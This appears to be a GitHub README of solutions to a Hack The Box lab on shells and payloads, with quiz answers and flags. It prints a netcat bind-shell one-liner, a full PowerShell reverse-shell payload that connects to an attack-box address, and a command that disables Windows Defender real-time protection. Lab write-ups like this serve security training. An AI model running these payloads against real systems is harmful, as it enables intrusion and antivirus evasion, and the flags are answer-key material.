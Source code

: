 # HTB-Shells_and_Payloads

## Table of Contents
1. [Shell Basics](#shell-basics)
    1. [Anatomy of a Shell](#anatomy-of-a-shell)
    2. [Bind Shells](#bind-shells)
    3. [Reverse Shells](#reverse-shells)

## Shell Basics
### Anatomy of a Shell
#### Challenges
1. Which two shell languages did we experiment with in this section? (Format: shellname&shellname)

    The answer is `bash&powershell`.

2. In Pwnbox issue the $PSversiontable variable using PowerShell. Submit the edition of PowerShell that is running as the answer

    We just need to type `$PSversiontable`. The answer is `Core`.

### Bind Shells
#### Payload
1. Binding a Bash shell to the TCP session
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
#### Challenges
1. Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session?

    The answer is `443`.

2. SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.

    First we need ssh to the target. Then we use this payload.
    ```bash
    rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.180.140 7777 > /tmp/f
    ```

    After that, from our client, we can connect to that port using nc.

    ```bash
    nc -nv 10.129.180.140 7777 
    ```

    From there we can read the flag. The answer is `B1nD_Shells_r_cool`.

### Reverse Shells
#### Tools
1. [Reverse Shell CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
2. Windows Reverse Shell Common Payload
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### Challenges
1. When establishing a reverse shell session with a target, will the target act as a client or server?

    The answer is `client`.

2. Connect to the target via RDP and establish a reverse shell session with your attack box then submit the hostname of the target box.

    In the our terminal, we open netcat first.
    ```bash
    sudo nc -lvnp 443
    ```

    Then we need to rdp to the target. After that we disable the Windows Defender antivirus by run this payload on the powershell admin previllege.

    ```powershell
    Set-MpPreference -DisableRealtimeMonitoring $true
    ```

    And then we use this payload into cmd.

    ```cmd
    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.234',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    ```

    After that we can type `hostname` in the our terminal. The answer is `Shells-Win10`.